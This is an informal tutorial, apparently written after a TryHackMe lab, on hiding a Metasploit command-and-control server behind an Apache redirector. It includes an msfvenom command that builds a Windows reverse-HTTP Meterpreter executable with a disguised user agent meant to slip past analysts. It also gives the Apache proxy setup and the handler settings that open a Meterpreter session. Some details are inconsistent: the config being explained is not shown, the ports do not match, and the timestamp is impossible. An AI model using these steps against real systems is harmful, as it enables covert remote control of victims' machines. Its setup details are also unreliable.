


### What's a Command & Control [C2]

Let's not make it complexx, A c2 or command and control is a tool designed to handle multiple call backs from compromised hosts, like Metasploit, Empire, Cobalt Strike there are moer complex and efficient C2's out there which are really good at what they are designed for.
	
For this example we will be going to go with Metasploit to keep it simple and clean. If u still didn't got what i mean pls refer this image below.
	

Image Credit = TryHackMe
	
<br><br/>

---

### C2 Redirector's

The c2 redirector is what is say's, Redirector redirects 
	
- **what** --> HTTP/HTTPS requests. 
- **how** --> by reading the request body. 

I know u are not getting it but, hold with me just for a while.


Image Credit = TryHackMe

#### Why use Redirector

- They Hide the Real C2 Server **(Main Purpose)**
- They Filter Traffic
- They Transform or Clean Traffic
- They Transform or Clean Traffic

At last "A C2 redirector is a protective proxy that relays and filters traffic so your real C2 server stays hidden, hardened, and safe."


<br><br/>

---

### Basic Setup of redirector.

Now u have followed me till hear, lets get started we will be doing a basic setup of redirector using apache2 as our redirector to our c2 which will be metasploit for apache2 to redirect requests, we will be leveraging a module called "mod_rewrite" (or the Rewrite module). This module allows us to write rules to forward requests to internal or external hosts on a server based on specific HTTP headers or content. We will need to use several modules to configure our Redirector. 
The following modules must be enabled:

- rewrite
- proxy
- proxy_http
- headers

As we have apache2 on our kali machine we will enale those modules but executing 
```
a2enmod rewrite && a2enmod proxy && a2enmod proxy_http && a2enmod headers && systemctl start apache2 && systemctl status apache2
```
This we enable the necessary modules needed.

But hear goes the main part the request which will be forwaded to out c2 will but http/https with a custom user agent in the request body which can be do via the msfvenom using attribut called "HttpUserAgent=uruseragenthear".

```
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

Using Msfvenom, we have the ability to configure various aspects of the HTTP Request, but we will be proceding with the UserAgent as they all more or less look the same, and there is a very good chance a security analyst may overlook a modified user agent string.

To verify this u can deliver this payload to victim and capture the incomming packets from wireshark, As shown below.



Now we know our header is in place lets move ahead. This is just the header check but we need to configure the apache2 and metasploit which is confusing so let me try to explain it.

#### Configuring Apache2 To Redirect.

On Debian based systems, the default config can be found at /etc/apache2/sites-available/000-default.conf.

```
cat /etc/apache2/sites-available/000-default.conf  | grep -v '#'
<VirtualHost *:80>

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        <Directory>
                AllowOverride All
        </Directory>

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

</VirtualHost>
```

We must add a few lines to the config file to enable the Rewrite Engine, add a rewrite condition, and lastly, pass through the Apache 2 Proxy. This sounds fairly complex, but it's quite simple.

#### Explanation Of Code

##### 1.RewriteEngine On
- This turns on Apache’s mod_rewrite engine in the current context (vhost, directory, or .htaccess).
- Without this, any RewriteCond / RewriteRule directives are ignored.

##### 2.RewriteCond %{HTTP_USER_AGENT} "^NotMeterpreter$"
- RewriteCond defines a condition that must be true for the next RewriteRule to run (here, it checks the User‑Agent header).

- %{HTTP_USER_AGENT} is the value of the User-Agent HTTP header sent by the client.

- The pattern ^NotMeterpreter$ is a regular expression:

	^ = start of the string.
	NotMeterpreter = literal text.
	$ = end of the string.

	So this condition is true only when the User‑Agent is exactly NotMeterpreter and nothing else.

	This is usually used to detect or exclude traffic coming from a specific client (here, likely some Meterpreter payload), but note that you have no RewriteRule after it, so on its own it does nothing.
	
##### 3.ProxyPass "/" "http://localhost:8080/"
- ProxyPass is from mod_proxy, not mod_rewrite.

- It tells Apache: for any request whose path starts with /, forward it (reverse proxy) to http://localhost:8080/ <-- This will be yours C2's ip address where u want to forwad requests to.

- In other words, Apache on (say) port 80 becomes a front‑end that passes all requests to an application server listening on localhost:8080.

- This applies to all clients, regardless of User‑Agent, because it is not tied to the RewriteCond.

#### Setting Up Metasploit.

This setup is done on a THM room using a VPN.

```
Victim → redirector IP:80 (VPN IP) 
       ↓ Apache proxies to → 127.0.0.1:4554
Metasploit: LHOST=127.0.0.1 + OverrideLHOST=redirector IP ✓
```
This will be hard to digest but, when we execute payload on victim it will be connecting to our redirector's public ip not to our metasploit and then the redirector will forwad it to metasploit on 127.0.0.1 in this case. Its simple to read and understand but while assingning ip's it will be complex.

Hear's the idea to better digest it, the redirector will be at another location, victim at another and attacker at another location.

So when making payload for victim u need to use ip and port of redirector.

And when setting metasploit u need to set :- 
- LHOST --> U must set LHOST argument to the incoming **interface** that u are expecting connections from.
- LPORT --> Port where u want to listen to.

**OverrideLHOST/PORT = "Force victim to ALWAYS use redirector"**
- OverrideLHOST --> This value will be your redirector's **Public** IP Address.
- OverrideLPORT --> This value will be your redirector's Port.

```
root@kali$ msfconsole
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf6 exploit(multi/handler) > set LHOST 127.0.0.1
LHOST => 127.0.0.1
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf6 exploit(multi/handler) > set ReverseListenerBindPort 8080
ReverseListenerBindPort => 8080
msf6 exploit(multi/handler) > set OverrideLHOST 192.168.205.112
OverrideLHOST => 192.168.205.112
msf6 exploit(multi/handler) > set OverrideLPORT 80
OverrideLPORT => 80
msf6 exploit(multi/handler) > set HttpUserAgent NotMeterpreter
HttpUserAgent => NotMeterpreter
msf6 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf6 exploit(multi/handler) > run
[!] You are binding to a loopback address by setting LHOST to 127.0.0.1. Did you want ReverseListenerBindAddress?
[*] Started HTTP reverse handler on http://127.0.0.1:4554
[!] http://127.0.0.1:4554 handling request from 127.0.0.1; (UUID: ketyag7h) Without a database connected that payload UUID tracking will not work!
[*] http://127.0.0.1:4554 handling request from 127.0.0.1; (UUID: ketyag7h) Staging x86 payload (190044 bytes) ...
[!] http://127.0.0.1:4554 handling request from 127.0.0.1; (UUID: ketyag7h) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 9 opened (127.0.0.1:4554 -> 127.0.0.1:52034) at 2025-12-28 21:84:35 +0530

meterpreter >
```


Lastly, we must set the OverrideRequestHost to true, This will make Meterpreter respond with the OverrideHost information, so all queries go through the Redirector and not your C2 server.	


